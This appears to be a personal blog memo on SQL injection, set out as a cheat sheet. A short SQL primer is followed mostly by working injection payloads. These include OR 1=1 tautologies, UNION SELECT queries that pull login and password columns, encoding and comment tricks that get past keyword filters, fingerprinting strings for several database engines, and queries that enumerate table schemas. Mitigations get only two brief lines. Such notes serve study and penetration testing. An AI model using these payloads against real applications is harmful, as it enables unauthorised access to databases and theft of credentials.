 ```yaml
---
layout: post
title:  "SQL injections"
date:   2019-1-1 16:57:56 +0100
---
```

# SQL memo
## Data types
* **INT**: signed integer on 4 bytes
* **DATE** and **TIME**: self-explanatory. Moron.
* **VARCHAR**: strings
* **BLOB** and **TEXT**: binary object of big size
* **ENUM** and **SET**: string in a list

## Commands
```
SHOW databases;
CREATE database database_name;
USE database_name;
CREATE TABLE users (id INT NOT NULL, login VARCHAR(20), password VARCHAR(40));
DESC users; # Display the structure of the table
INSERT INTO table_name VALUES(123, 'test_user', 'test_pass'); # Clear-text password
INSERT INTO table_name VALUES(1234, 'sec_user', password('test_pass'));
ALTER TABLE users MODIFY password VARCHAR(41);
UPDATE users SET password=password('better_pass_123') WHERE login='test_user';
SELECT * FROM users WHERE login='test_user' AND password=password(better_pass_123');
DROP TABLE users;
```



# Simple injections
* `'`, `''` (SQL-escaped single quote)
* `test' OR 1=1 --`
* `UNION SELECT login, password FROM users #`
* Select the line using **LIMIT**: `UNION SELECT login, password FROM users LIMIT 1,1 #`
* Balancing the quotes: `test' OR 'a' ='a`
* Wildxard character: `%``
* Numerics: `3-1`, `67-ASCII('A')`, `51-ASCII(1)` (implicit numeric to string cast)
* Test if injection in **SELECT**: input `1` results in `SELECT 1,..` so first column is filled with 1s
* Return number of lines: `aa' UNION SELECT count(*), users.password FROM users; --`
* `' UNION SELECT users.password, users.password FROM users LIMIT 1 OFFSET 1; --`


# Mitigations
* PHP `htmlentities()`
* PHP `addslashes()`. Can be bypassed if another encoding is used.



# Strategies
* Get the version string of the database
* Use string concatenation techniques to produce legitimate input
* MySQL ~ Sybase
* Blind injection: insert data into a user field, such as a profile name
* Blind injection: best to look for interesting columns names rather than tables (use `LIKE '%pass%'` for password-related columns)
* Second order injections



# Tactics
* URL-encode HTTP-related characters
* Oracle globally accessible table: `DUAL`. Useful to complete **SELECT** statements
* Return strings through numeric columns: `ASCII` and `SUBSTRING` functions to return one character at a time

## SELECT filtering bypasses
```
SeLeCt
%00SELECT
SESELECTLECT
%53%45%4C%45%43%54
%2553%2545%254C%2545%2543%2554
SE/*MySQL only*/LECT
```

## Comments as spaces
* `SELECT/*foo*/password/*bar*/FROM/*foobar*/users`
* MySQL: comments inside keywords `SE/*damn!*/LECT/*foo*/password/*bar*/FROM/*foobar*/users`

## Database fingerprinting
* Oracle: `BITAND(1,1)-BITAND(1,1)`
* MS-SQL: `@@PACKED_RECEIVED-@@PACKED_RECEIVED`
* MySQL: `CONNECTION_ID()-CONNECTION_ID()`
* MySQL version fingerprinting: inline comment `/*!32302 and 1=0*/` ignored if database version doesn't match `32302` version string. Else, interpreted as `and 1=0`
* Comments:
  * MS-SQL, MySQL (with a space after double hyphens), Oracle: `--`
  * `#`
  * `;`
* MS-SQL and MySQL version string: `' UNION SELECT @@version, NULL-- `
* Oracle version string: `' UNION SELECT banner, NULL, NULL FROM v$version--`


## String
* Concatenation useful to return multiple results when only one **VARCHAR** columns found
* Oracle concatenation: `'||'test`
* MS-SQL concatenation: `'+'test`
* MySQL concatenation: `' 'test` (mind the space)
* Build Oracle string: `CHR(97)||CHR(98)='ab'`
* Build MS-SQL string: `CHAR(97)+CHAR(98)='ab'`


## Blind injections
* Table structure with MS-SQL, MySQL, SQLite and Postgresql: `' UNION SELECT table_name,column_name FROM information_schema.columns--`
* Table structure with MS-SQL: `SELECT table_name+':'+column_name FROM information_schema.columns--`
* Table structure with MySQL: `SELECT CONCAT(table_name, ':', column_name) FROM information_schema.columns--`
* Table structure with SQLite: `' UNION SELECT name, sql FROM sqlite_master;`
* Table structure with Oracle:
  * `' UNION SELECT table_name,column_name FROM all_tab_columns;`
  * `' UNION SELECT table_name,column_name FROM user_tab_columns;`
  * `SELECT table_name||':'||column_name FROM all_tab_columns;`
* Number of columns:
  * `ORDER BY 1`, `ORDER BY 2` ...
  * `UNION SELECT NULL--`, `UNION SELECT NULL, NULL--` ... Should be checked by reviewing raw response. Add `FROM DUAL` if Oracle.
* Discovering string columns: `SELECT 'a', NULL, NULL`, `SELECT NULL, 'a', NULL`, `SELECT NULL, NULL, 'a'`
* Name of columns: `ORDER BY "column_name"`
* Length of a string: TODO
* Number of values for **INSERT** statements: iteratively add fields
  ```
  test')--
  test', 1)-- Implicitly casted to a string in most DBMS
  test', 1, 2000)--  Implicitly casted to a date in most DBMS
  ...
  ```
* **SELECT** statement with unknown column type: `SELECT NULL, password`
